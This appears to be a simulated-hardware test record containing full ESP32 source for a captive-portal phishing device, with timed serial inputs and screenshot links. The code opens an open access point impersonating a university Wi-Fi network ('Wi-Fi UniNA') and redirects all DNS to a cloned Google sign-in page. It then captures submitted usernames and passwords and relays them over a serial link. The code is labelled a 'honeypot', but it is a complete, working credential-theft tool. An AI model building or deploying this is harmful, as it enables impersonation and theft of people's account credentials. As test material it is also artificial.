
This sketch was run on a simulated ESP32. Parts: the last lines printed to the serial monitor. The inputs (shaded band) are chosen by the test bench. Storage starts empty.

Above: at 1.2 s.
1.3 s: "start\n" received over the second serial link
At 2.1 s:

2.8 s: "stop_\n" received over the second serial link
At 3.2 s:

4.3 s: "1\n" received over the second serial link
At 5.5 s:


The sketch:

captive_google.ino
```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <DNSServer.h>
#include <SPIFFS.h>   // to load file on esp32
#include "web_handler.h"
#include "ap_handler.h"

// PIN setup
#define TX 17
#define RX 16
#define BAUD_RATE 9600

String received_command = "";

DNSServer dns_server;
WebServer http_server(80);

void setup() {
  Serial.begin(115200);

  if (!SPIFFS.begin(true)) {
      Serial.println("[ERROR] SPIFFS mount failed!");
      return;
  }

  File root = SPIFFS.open("/");
  File file = root.openNextFile();
  Serial.print("[SPIFFS] File uploaded on board: ");
  while (file) {
    Serial.println(file.name());
    file = root.openNextFile();
  }

  Serial1.begin(BAUD_RATE, SERIAL_8N1, RX, TX);
  Serial.println("[OK] Ready to receive command via Serial1 (USART).");

}

void loop() {

  while (Serial1.available()) {
    char c = Serial1.read();
    received_command += c;

    if (c == '\n') {
      received_command.trim();
      Serial.print("[INFO] Command received: ");
      Serial.println(received_command);

      if (received_command == "start" && !ap_is_active()) {
        ap_start();
      } else if (received_command == "stop_" && ap_is_active()) {
        ap_stop();
      }

      received_command = "";
    }

  }

  // only if AP is active, manage DNS and HTTP requests
  if (ap_is_active()) {
    dns_server.processNextRequest();
    http_server.handleClient();
  }

  delay(10);

}
```

ap_handler.cpp
```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <DNSServer.h>

#include "web_handler.h"
#include "ap_handler.h"

const char *ap_ssid = "Wi-Fi UniNA";
const char *ap_password = "";
const byte DNS_PORT = 53;

bool ap_active = false;

void ap_start() {
    WiFi.softAP(ap_ssid, ap_password);
    dns_server.start(DNS_PORT, "*", WiFi.softAPIP());
    setup_web_handler();
    http_server.begin();
    ap_active = true;

    Serial.println("[INFO] Honeypot Unina Started");
    Serial.println("[INFO] IP Address:");
    Serial.print(WiFi.softAPIP());
}

void ap_stop() {
    http_server.stop();
    dns_server.stop();
    WiFi.softAPdisconnect(true);
    ap_active = false;

    Serial.println("[INFO] Honeypot Unina Stopped");
}

bool ap_is_active() {
    return ap_active;
}
```

ap_handler.h
```cpp
#ifndef AP_HANDLER_H
#define AP_HANDLER_H

extern WebServer http_server;
extern DNSServer dns_server;

void ap_start();
void ap_stop();
bool ap_is_active();

#endif
```

html_backup.cpp
```cpp
const char* login_page = R"rawliteral(
    <!DOCTYPE html>
    <html lang="it">
    <head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>Sign in - Google Account</title>
    </head>
    <body>
      <div style="display: flex; flex-direction: column; align-items: center; min-height: 100vh; background-color: #f8f9fa; justify-content: center;">
        <p style="color: #5f6368; margin-bottom: 20px;">Sign in with your Google Account to enjoy free access to the web.</p>

        <div style="background-color: #fff; padding: 40px; border-radius: 8px; box-shadow: 0 2px 4px rgba(0, 0, 0, 0.1);">
          <div style="text-align: center; margin-bottom: 20px;">
            <img src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png" alt="Google" style="height: 30px;">
            <h2 style="margin-top: 10px; font-weight: 400; color: #202124;">Sign in</h2>
            <p style="color: #5f6368;">Use your Google Account</p>
          </div>

          <form action="/submit" method="POST">
            <input type="email" id="username" name="username" placeholder="Email or phone" required
                   style="width: 100%; padding: 10px; margin-bottom: 10px; border: 1px solid #ccc; border-radius: 4px; box-sizing: border-box;">
            <input type="password" id="password" name="password" placeholder="Enter your password" required
                   style="width: 100%; padding: 10px; margin-bottom: 10px; border: 1px solid #ccc; border-radius: 4px; box-sizing: border-box;">

            <a href="#" style="display: block; margin-bottom: 20px; color: #1a73e8; text-decoration: none;">Forgot email?</a>
            <p style="color: #5f6368; font-size: 0.875rem; margin-bottom: 20px;">
              Not your computer? Use Guest mode to sign in privately.
              <a href="#" style="color: #1a73e8; text-decoration: none;">Learn more</a>
            </p>

            <div style="display: flex; justify-content: space-between; align-items: center;">
              <a href="#" style="color: #1a73e8; text-decoration: none;">Create account</a>
              <input type="submit" value="Next"
                     style="background-color: #1a73e8; color: #fff; border: none; padding: 10px 20px; border-radius: 4px; cursor: pointer;">
            </div>
          </form>

        </div>

        <div style="text-align: center; padding: 20px; color: #5f6368; font-size: 0.875rem;">
          <select style="padding: 5px; border: 1px solid #ccc; border-radius: 4px; margin-right: 10px;">
            <option>English (United States)</option>
          </select>
          <a href="#" style="color: #5f6368; text-decoration: none; margin-right: 10px;">Help</a>
          <a href="#" style="color: #5f6368; text-decoration: none; margin-right: 10px;">Privacy</a>
          <a href="#" style="color: #5f6368; text-decoration: none;">Terms</a>
        </div>
      </div>
    </body>
    </html>
    )rawliteral";
```

html_backup.h
```cpp
#ifndef HTML_BACKUP_H
#define HTML_BACKUP_H

extern const char* login_page;

#endif
```

web_handler.cpp
```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <DNSServer.h>
#include <SPIFFS.h>

#include "web_handler.h"
#include "html_backup.h"

void setup_web_handler() {
    http_server.on("/", main_handler);
    http_server.on("/submit", submit_handler);
    http_server.onNotFound(captive_portal);

    // file handlers for use html page from files
    http_server.serveStatic("/style.css", SPIFFS, "/style.css");
    http_server.serveStatic("/script.js", SPIFFS, "/script.js");
    http_server.serveStatic("/logo.jpg", SPIFFS, "/logo.jpg");
    http_server.serveStatic("/background.jpg", SPIFFS, "/background.jpg");
}

void captive_portal() {
    http_server.sendHeader("Location", String("http://") + WiFi.softAPIP().toString(), true);
    http_server.send(302, "text/plain", "");
}

void main_handler() {

    http_server.send(200, "text/html", login_page);

    /*
    // CODE TO LOAD UNINA LOGIN PAGE
    File file = SPIFFS.open("/index.html", "r");
    if (!file || file.isDirectory()) {
        http_server.send(404, "text/plain", "Login page not found");
        return;
    }
    http_server.streamFile(file, "text/html");
    file.close();
    */
}

void submit_handler() {
    if (http_server.method() == HTTP_POST) {
        String username = http_server.arg("username");
        String password = http_server.arg("password");

        Serial.print("[CREDENTIALS] Username: ");
        Serial.println(username);
        Serial.print("[CREDENTIALS] Password: ");
        Serial.println(password);

        String to_transmit = username + " - " + password + "\n";
        Serial.print("[CREDENTIALS] Sending acquired data: ");
        Serial.print(to_transmit);
        Serial1.print(to_transmit);   // send credentials over usart

        http_server.sendHeader("Location", "/");
        http_server.send(302, "text/plain", "Fake redirection");
    } else {
        http_server.send(405, "text/plain", "Method Not Allowed");
    }
}
```

web_handler.h
```cpp
#ifndef WEB_HANDLER_H
#define WEB_HANDLER_H

extern WebServer http_server;
extern DNSServer dns_server;

// this function setup all the routes for the Honeypot Unina. //
void setup_web_handler();

// this function activates everytime user try to navigate on web. //
// in particular, for each URL that doesn't match the ESP-32 one, //
// the user is redirected on the login page. //
void captive_portal();

// this function activates everytime the main page is visited. //
// it presents a web login interface to the user. //
void main_handler();

// this function activates everytime user submit a username-passwrd pair. //
// the credentials are written on the serial output and sent on usart. //
void submit_handler();

#endif
```

Measured:
- after the input at 1.3 s, the serial monitor: prints a new line at once (image 1)
- after the input at 2.8 s, the serial monitor: prints a new line at once (image 2)
- after the input at 4.3 s, the serial monitor: prints a new line at once (image 3)
